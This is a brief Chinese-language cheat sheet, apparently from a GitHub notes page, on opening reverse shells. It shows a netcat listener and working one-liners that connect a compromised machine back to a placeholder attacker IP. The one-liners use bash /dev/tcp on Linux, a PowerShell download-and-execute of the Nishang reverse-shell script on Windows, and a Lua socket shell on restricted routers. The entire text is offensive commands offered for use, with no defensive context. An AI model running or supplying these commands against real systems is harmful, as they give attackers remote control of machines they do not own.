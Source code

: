 # 弹个shell
在本地监听39574端口,本机ip为`a.b.c.d`
```bash
nc -lvvvp 39574
```
* 在Linux目标上
    ```bash
    bash -i >& /dev/tcp/a.b.c.d/39574 0>&1
    ```
* 在Windows目标上
    ```powershell
    Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress a.b.c.d -port 39574
    ```
* 在一些受限的Linux路由器上
    ```bash
    lua -e "require('socket');require('os');t=socket.tcp();t:connect('a.b.c.d','39574');os.execute('/bin/sh <&3 >&3 2>&3');"
    ```